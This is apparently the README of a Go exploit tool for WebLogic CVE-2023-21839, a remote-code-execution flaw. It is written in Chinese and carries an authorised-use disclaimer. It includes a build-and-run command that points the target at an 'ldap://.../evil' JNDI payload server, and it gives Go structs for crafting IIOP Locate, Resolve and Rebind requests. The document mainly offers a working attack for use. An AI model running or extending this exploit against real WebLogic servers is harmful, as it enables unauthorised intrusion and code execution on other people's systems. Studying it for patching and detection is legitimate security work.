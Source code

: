## CVE-2023-21839

**未经授权许可使用本项目攻击或测试目标是非法的，本程序应仅用于授权的安全测试与研究目的**

### 介绍

Weblogic CVE-2023-21839 RCE

（1）**无需任何 Java 依赖，构造协议通过socket直接RCE**

（2）已解决 IIOP 的 NAT 网络问题（可测试 Docker 与公网目标）

（3）在 Windows/Mac OS/Linux 以及 Weblogic 12/14 中测试通过

（4）请使用 JDK 8u191 以下启动 Weblogic 并自行搭建 JNDI Server

### 使用

```shell
cd cmd
go build -o CVE-2023-21839
./CVE-2023-21839 -ip 127.0.0.1 -port 7001 -ldap ldap://127.0.0.1:1389/evil
```

![](img/rce.png)

### 其他

Locate Request

```go
type LocateRequest struct {
	Header            *Header
	RequestId         []byte // 4
	TargetAddress     []byte // 2
	_reserved         []byte // 2
	_keyAddressLength []byte // 4
	KeyAddress        []byte // _keyAddressLength
}
```

Resolve Request

```go
type ResolveRequest struct {
	Header             *Header
	RequestId          []byte // 4
	ResponseFlags      []byte // 1
	_reserved1         []byte // 3
	TargetAddress      []byte // 2
	_reserved2         []byte // 2
	_keyAddressLength  []byte // 4
	KeyAddress         []byte // _keyAddressLength
	_operationLength   []byte // 4
	RequestOperation   []byte // _operationLength
	_reserved3         []byte // 1
	ServiceContextList *ServiceContextList
	CosNamingDissector []byte // no limit
}
```

Rebind Request

```go
type RebindRequest struct {
	Header             *Header
	RequestId          []byte // 4
	ResponseFlags      []byte // 1
	_reserved1         []byte // 3
	TargetAddress      []byte // 2
	_reserved2         []byte // 2
	_keyAddressLength  []byte // 4
	KeyAddress         []byte // _keyAddressLength
	_operationLength   []byte // 4
	RequestOperation   []byte // _operationLength
	_reserved3         []byte // 2
	ServiceContextList *ServiceContextList
	StubData           []byte // no limit
}
```